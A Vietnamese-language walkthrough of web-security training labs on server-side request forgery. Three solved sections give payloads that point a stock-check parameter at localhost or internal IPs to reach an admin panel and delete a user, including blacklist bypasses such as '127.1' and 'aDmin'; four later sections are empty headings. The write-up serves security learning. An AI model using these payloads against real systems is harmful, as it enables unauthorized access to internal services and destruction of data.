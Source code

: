# 1. Basic SSRF against the local server
Truy cập /admin, ta nhận được thông báo: "Admin interface only available if logged in as an administrator, or if requested from loopback".

Khi sử dụng chức năng checkStock, request `POST /product/stock` với parameter `stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D3%26storeId%3D1`. Như vậy ta sẽ thử thay đổi stockApi để access trang admin với tư cách localhost.

Thay đổi tham số `stockApi=http://localhost/admin`, kết quả thành công.

![image](https://user-images.githubusercontent.com/103978452/205523955-5692177a-7acd-42ba-ac37-2f98bbff4ebb.png)

Thay đổi `stockApi=http://localhost/admin/delete?username=carlos` để giải bài lab.

# 2. Basic SSRF against another back-end system
Đưa request `POST /product/stock` vào Intruder với payload: `stockApi=http%3A%2F%2F192.168.0.0%3A8080`, thực hiện bruteforce chữ số cuối trong IP address với phạm vi từ 0 đến 255. Ta thấy chỉ với IP 192.168.0.151 thì hiển thị mã lỗi 404:

![image](https://user-images.githubusercontent.com/103978452/205553868-d23ea3bc-56bf-4d80-b9b9-1a4c891116c7.png)

Thay đổi tham số `stockApi=http%3A%2F%2F192.168.0.151%3A8080%2Fadmin`, ta truy cập trang admin thành công. Tiếp tục thay đổi thành `stockApi=http%3A%2F%2F192.168.0.151%3A8080%2Fadmin%2Fdelete?username=carlos` để xóa user carlos.
![image](https://user-images.githubusercontent.com/103978452/205554210-25fe920a-1573-4b04-93c7-10a8a9521c06.png)

# 3. SSRF with blacklist-based input filter
Thay đổi `stockApi=http://localhost` thì thấy thông báo lỗi "External stock check blocked for security reasons"

Thay đổi thành `stockApi=http://127.1`, kết quả thành công. Tuy nhiên khi truy cập admin `stockApi=http://127.1/admin` thì lại hiển thị lỗi. Như vậy có khả năng server đã chặn từ khóa "admin".

Ta thử thay đổi `stockApi=http://127.1/aDmin`, kết quả truy cập trang admin thành công. Sau đó lại đổi thành `stockApi=http://127.1/aDmin/delete?username=carlos`, kết quả user carlos bị xóa.

![image](https://user-images.githubusercontent.com/103978452/205544461-b7b85229-b774-4cea-8c2f-f2eaeff2db71.png)

# 4. SSRF with filter bypass via open redirection vulnerability

# 5. Blind SSRF with out-of-band detection

# 6. SSRF with whitelist-based input filter

# 7. Blind SSRF with Shellshock exploitation
